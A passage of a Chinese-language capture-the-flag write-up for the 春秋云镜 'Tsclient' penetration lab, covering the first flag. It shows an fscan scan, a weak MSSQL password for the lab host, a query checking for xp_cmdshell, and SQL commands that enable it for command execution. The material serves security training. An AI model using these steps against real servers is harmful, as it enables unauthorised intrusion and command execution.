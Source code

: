 +++
date = '2025-03-12T22:03:55+08:00'
title = '春秋云镜-Tsclient-Writeup'
categories = ["Writeup"]
tags = ["writeup", "渗透", "春秋云镜"]

+++



Tsclient是一套难度为中等的靶场环境，完成该挑战可以帮助玩家了解内网渗透中的代理转发、内网扫描、信息收集、特权提升以及横向移动技术方法，加强对域环境核心认证机制的理解，以及掌握域环境渗透中一些有趣的技术要点。该靶场共有3个flag，分布于不同的靶机。



> 参考文章
>
> [春秋云镜 TSclient -- Walkthrough - KingBridge - 博客园](https://www.cnblogs.com/kingbridge/articles/17645128.html)
>
> [春秋云境 Tsclient | 初零·b10g~🥝](https://bowuchuling.github.io/posts/chunqiu_Tsclient)



### FLAG1

![image-20250309183544076](../assets/image-20250309183544076.png)

先用fscan扫一下

![image-20250309184512071](../assets/image-20250309184512071.png)
mssql服务是弱口令

```
sa/1qaz!QAZ
```

用数据库管理工具连上去

![image-20250309190358640](../assets/image-20250309190358640.png)

接下来要看mssql怎么进行命令执行

参考文章：

https://xz.aliyun.com/news/7129

判断xp_cmdshell状态

```
select * from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'
```

![image-20250309190544521](../assets/image-20250309190544521.png)

存在

那我们接下来启动它

```
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
```
